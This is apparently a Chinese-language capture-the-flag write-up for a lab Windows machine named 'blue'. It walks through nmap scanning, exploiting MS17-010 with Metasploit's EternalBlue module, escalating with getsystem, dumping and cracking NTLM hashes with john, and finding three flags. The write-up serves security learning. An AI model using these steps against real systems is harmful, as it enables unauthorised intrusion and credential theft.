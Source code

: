 ```yaml
---
icon: pen-to-square
date: 2025-04-22
tags: 
title: blue
category:
  - 项目
---
```

## 解答过程
### nmap扫描
```bash
namp -sn <ip>
```
发现主机

```bash
sudo nmap --min-rate 10000 -p- <ip> -oA nmapscan/ports
```
扫描端口
```bash
└─# cat ports.nmap
# Nmap 7.94SVN scan initiated Tue Apr 22 20:27:34 2025 as: nmap --min-rate 10000 -p- -oA 10.10.111.35/ports 10.10.111.35
Nmap scan report for 10.10.111.35
Host is up (7.9s latency).
Not shown: 58579 filtered tcp ports (no-response), 6952 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

# Nmap done at Tue Apr 22 20:28:17 2025 -- 1 IP address (1 host up) scanned in 43.28 seconds
```
发现可能存在高危漏洞`ms17-010`
search一下ms17-010发现
`exploit/windows/smb/ms17_010_eternalblue`模块
设置好options后进行下一步操作
获得反弹bash
multi/manage/shell_to_meterpreter
使用meterpreter进行提升权限
运行getsystem即获得最高权限
然后输入
```bash
hashdump
```
可以获得NT哈希，用john进行破解

```bash
john --format=NT hash.txt --wordlist=/path/to/wordlist.txt
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

```
用户名:用户ID:LM哈希:NTLM哈希:::
```
## 寻找flag
首先提示了再系统根目录会发现flag，我们转到系统根目录
```bash
cat C:\\flag1.txt
```
获得flag1.txt
flag2提示可以在windows存储密码的位置发现
windows存储密码的位置为
```bash
%SystemRoot%\\System32\\config\\SAM
```

第三个flag位置确实没看懂，直接梭哈吧
用`search`命令在C盘根目录进行搜索
```bash
meterpreter > search -d C:\\ -f flag3.txt -r
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
C:\Users\Jon\Documents\flag3.txt  37            2019-03-18 03:26:36 +0800
```
发现flag